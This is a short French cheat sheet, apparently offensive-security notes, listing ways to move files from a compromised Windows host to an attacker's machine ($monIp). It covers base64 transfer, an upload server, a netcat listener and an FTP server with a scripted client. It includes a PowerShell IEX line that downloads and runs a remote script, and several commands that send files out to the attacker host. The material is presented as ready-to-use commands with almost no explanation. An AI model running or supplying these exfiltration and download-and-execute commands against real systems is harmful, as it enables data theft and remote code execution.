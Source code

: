 #### Upload d'un fichier depuis windows en base64

```powershell
[Convert]::ToBase64String((Get-Content -path "$fichier" -Encoding byte))
```

```bash
echo $base64 | base64 -d > $fichier
```

#### Upload d'un fichier via création d'un serveur d'upload

```bash
pip3 install uploadserver
python3 -m uploadserver
```

```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

Invoke-FileUpload -Uri http://$monIp:8000/upload -File $fichier
```

#### Upload d'un fichier en base64 via netcat

```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path '$fichier' -Encoding Byte))
Invoke-WebRequest -Uri http://$monIp:8000/ -Method POST -Body $b64
```

```bash
nc -lvnp 8000
echo $base64 | base64 -d -w 0 > $fichier
```

#### Upload d'un fichier via création d'un serveur FTP

```bash
sudo python3 -m pyftpdlib --port 21 --write
```

```powershell
(New-Object Net.WebClient).UploadFile('ftp://$monIp/ftp-hosts', '$fichier')

Ou, en cas de shell non-interractif:

echo open $monIp > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT $fichier >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```
